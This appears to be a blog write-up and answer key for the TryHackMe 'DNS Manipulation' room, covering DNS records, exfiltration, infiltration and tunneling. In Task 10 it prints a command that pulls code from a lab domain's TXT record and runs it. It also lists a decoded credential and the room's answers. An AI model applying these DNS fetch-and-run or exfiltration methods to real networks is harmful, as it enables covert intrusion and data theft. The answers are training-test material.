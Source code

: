 ```yaml
---
title: "THM | DNS Manipulation"
date: 2022-04-17
type: "post"
draft: false
showtableOfContents: true
---
```


## Room

https://tryhackme.com/room/dnsmanipulation

## Task 1: Introduction

*No answer needed*

## Task 2:  Installation

*No answer needed*

## Task 3: [Setup] Custom Public DNS Server

*No answer needed*

## Task 4: What is DNS? 

#### Question 1: If you were on Windows, what command could you use to query a txt record for "youtube.com"?

*~ nslookup -type=txt youtube.com*

#### Question 2: If you were on Linux, what command could you use to query a txt record for 'facebook.com'?

*~ dig facebook.com TXT*

#### Question 3: AAAA stores what type of IP Address along with the hostname?

*~ IPv6*

#### Question 4: Maximum characters for a DNS TXT Record is 256. (Yay/Nay)

*~ Nay*

#### Question 5: What DNS Record provides a domain name in reverse-lookup? (Research)

*~ PTR*

#### Question 6: What would the reverse-lookup be for the following IPv4 Address? (192.168.203.2) (Research)

*~ 2.203.168.192.in-addr.arpa*

```bash
nslookup 192.168.203.2
```

![source](/images/write-ups/dnsmanipulation/2022.png

## Task 5: What is DNS Exfiltration? 

#### Question 1: What is the maximum length of a DNS name? (Research) (Length includes dots!)

*~ 253*

## Task 6: DNS Exfiltration - Demo

*No answer needed*

## Task 7: DNS Exfiltration - Practice

```bash
cd ~/challenges/exfiltration/orderlist/
python3 ~/dns-exfil-infil/packetyGrabber.py order.pcap
cat order.txt
```

![source](/images/write-ups/dnsmanipulation/2022_1.png)

![source](/images/write-ups/dnsmanipulation/2022_2.png)

#### Question 1: What is the Transaction name? (Type it as you see it)

*~ Network Equip.*

#### Question 2: How much was the Firewall? (Without the $)

*~ 2500*

#### Question 3: Which file contain suspicious DNS queries? 

*~ cap3.pcap*

#### Question 4: Enter the plain-text after you have decoded the data using packetyGrabber.py found in ~/dns-exfil-infil/ folder.

*~ administrator:s3cre7P@ssword*

```bash
cd ../identify/
python3 ~/dns-exfil-infil/packetyGrabber.py cap3.pcap
cat cap.txt
```

![source](/images/write-ups/dnsmanipulation/2022_3.png)

## Task 8: What is DNS Infiltration?

#### Question 1: What type of DNS Record is usually used to infiltrate data into a network?

*~ txt*

## Task 9: DNS Infiltration - Demo

*No answer needed*

## Task 10: DNS Infiltration - Practice

*~ 4.4.0-186-generic*

```bash
nslookup -type=txt code.badbaddoma.in | grep Ye | cut -d \* -f2 > .mail.python3
python3 ~/dns-exfil-infil/packetySimple.py 
python3 .mal.py
```

![source](/images/write-ups/dnsmanipulation/2022_4.png)

## Task 11: DNS Tunneling

#### Question 1: What program was used to Tunnel HTTP over DNS?

*~ iodine*

## Task 12: The End

*No answer needed*

that's it ✌🏽

-------------------------------------------------------------
{{< rawhtml >}} 
<script src="https://utteranc.es/client.js"
        repo="mansoorbarri/website"
        issue-term="title"
        theme="dark-blue"
        crossorigin="anonymous"
        async>
</script>
{{< /rawhtml >}}